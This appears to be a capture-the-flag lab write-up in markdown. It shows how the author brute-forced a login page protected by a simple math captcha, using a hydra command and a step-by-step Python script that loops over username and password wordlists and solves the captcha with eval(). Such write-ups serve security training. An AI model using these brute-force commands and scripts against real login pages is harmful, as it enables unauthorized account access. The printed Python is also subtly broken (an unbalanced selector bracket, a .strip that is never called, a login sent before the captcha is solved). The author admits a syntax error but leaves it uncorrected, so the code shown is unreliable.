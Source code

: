 # 🔐 Brute Force Authentication Explained (Step-by-Step) 💥 - Freddy
![Screenshot From 2025-04-20 23-45-23](https://github.com/user-attachments/assets/d813f427-df49-4b54-976b-f774d1932408)


My first initial thought as soon as I unziped the zip file was its definetly a brute force attack. So I ran the bellow script:

```
sudo hydra -L usernames.txt -P passwords.txt 10.10.139.225 http-post-form
"/login:username=^USER^&password=^PASS^:Error" -v -t 40
```

![Screenshot From 2025-04-21 00-24-17](https://github.com/user-attachments/assets/cd0d1c9c-5492-4d17-b022-c16a09199147)

I was not prepared to wait. I reloaded the website. It presented me with this:

![Screenshot From 2025-04-21 00-28-31](https://github.com/user-attachments/assets/2716ac86-6bb7-4026-90e7-9c1320655a83)


This script tries to brute force login by using the username & password combos to break into a login page that also has a simple math captcha. Here's what it does 👇

---

## 1️⃣ Load Wordlists and the URL

📂 The room provides with a zip file with the users and the passwords txt to brute force with:
- `usernames.txt` ➝ A list of usernames to try
- `passwords.txt` ➝ A list of passwords to try

```
url = 'http://10.10.139.225/login'
usernames = open('usernames.txt', 'r')
passwords = open('passwords.txt', 'r') 
```

Each line is read one at a time.

---

## 2️⃣ Try Every Username

🔁 For each username:
- Clean it up (remove the newline `\n`)
- Go back to the start of the password list (so you can try all passwords again)

```
for username in usernames:
  username = username.strip('\n')
  passwords.seek(0)
```

---

## 3️⃣ Try Every Password

🔁 For each password:
- Also clean it up (remove the newline)
```
for password in passwords:
    password = password.strip('\n')
```

---

## 4️⃣ Solve the Captcha 🤔➕➖✖️

💡 Before sending login data:
- The script **requests the login page**
- It **reads the HTML**
- It finds the **math captcha** (e.g. "5 + 9 =")
- It **solves** the math using Python's `eval()` function

```
session = requests.Session()
    response = session.get(url)
    data = {'username': username,
            'password': password}
    response = session.post(url, data = data)
    soup = BeautifulSoup(response.text, 'html.parser')
    captcha_equation = soup.select_one('label[for="usr"]) + br').next_sibling.strip
    result = eval(captcha_equation.split("=")[0])
```
---

## 5️⃣ Send the Login Attempt 🚀

📝 It builds a form like this:

```
data = {'username': username,
            'password': password,
            'captcha': result}
response = session.post(url, data=data)
```
---

## 6️⃣ Output to the console and to log it✍️ 

```
print("[*] Attempting Password: %s for User: %s" % (password, username))
    if 'does not exist' not in response.text:
        print("[*]Username: %s is valid" % username)

        if 'Invalid password' not in response.text:
            print("[*]Password: %s is correct"% password)
            log = open('logs.txt', 'w')
            log.write(username +" "+ password)
            exit()
        else:
            print("[*]The Password is invalid")
    else:
      break
```
## 7️⃣ Finally found the username and password

![Screenshot From 2025-04-21 03-08-07](https://github.com/user-attachments/assets/3bf8fbe7-a355-4b1e-bb90-d4769b3d762c)


A small syntax error on the code but have corrected it.

## 8️⃣ Captured the flag successfully
![Screenshot From 2025-04-21 03-15-13](https://github.com/user-attachments/assets/f1096bb3-d6bf-462c-abfc-6472d5621ef1)

